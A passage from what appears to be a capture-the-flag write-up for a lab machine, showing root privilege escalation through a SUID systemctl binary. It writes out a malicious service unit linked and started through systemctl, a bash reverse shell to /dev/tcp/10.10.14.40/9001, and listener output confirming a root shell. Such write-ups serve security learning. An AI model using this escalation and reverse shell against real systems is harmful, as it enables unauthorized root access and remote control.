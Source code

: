 From the above binaries we could see `systemctl` is a non standard one. So we can look for privilege escalation throught that.

The `systemctl` command is used to manage service on a system running systemd. Usually, the configuration files are located are /etc/system/systemd. However, as we're not root, It's not possible to write a file to this folder. Instead, we can use `systemctl link` command.

According to the manpage [systemctl](https://www.freedesktop.org/software/systemd/man/systemctl.html), the `link` command can be used to Include a configuration file that isn't in the default search path. This will help us create  a unit file at any location and link it, which will let us start the service.

Checking [GTFObins](https://gtfobins.github.io/gtfobins/systemctl/#suid), we see how this can be leveraged to execute commands.
```
cd /home/pepper
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "id > /dev/shm/ouput"
[Insall]
WantedBy=multi-user.target' > pwn.service

systemctl link /home/pepper/pwn.service
systemctl start pwn.service
```

The command above create a file named `pwn.service` with service type `oneshot`. The oneshot service waits until the initial command has executed, before declaring the service active. The `ExecStart` parameter is used to specify the command which is to be executed on the start. Then the `link` command is used to link the service to systemd, and `start` command is used to execute the command.

```
pepper@jarvis:~$ systemctl link /home/pepper/pwn.service
pepper@jarvis:~$ systemctl start pwn
pepper@jarvis:~$ cat /dev/shm/ouput 
uid=0(root) gid=0(root) groups=0(root)
```
We can see it working now the ouptut of `id` command is seen in the `/dev/shm/outpu`, which confirms that its runs as root. we'll point it to our `shell.sh` file location which contains `bash -c "bash -i >& /dev/tcp/10.10.14.40/9001 0>&1"`. 

```
cd /home/pepper
echo '[Service]
Type=oneshot
ExecStart=/bin/sh -c "/dev/shm/shell.sh"
[Insall]
WantedBy=multi-user.target' > pwn.service

systemctl link /home/pepper/pwn.service
systemctl start pwn.service
```

After starating the service it executes the contents of `shell.sh` and we get a reverse shell as `root`.
```
ncat -lvnp 9001

Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.10.143.
Ncat: Connection from 10.10.10.143:55162.
bash: cannot set terminal process group (1333): Inappropriate ioctl for device
bash: no job control in this shell
root@jarvis:/# whoami && id
root
uid=0(root) gid=0(root) groups=0(root)
root@jarvis:/# hostname
```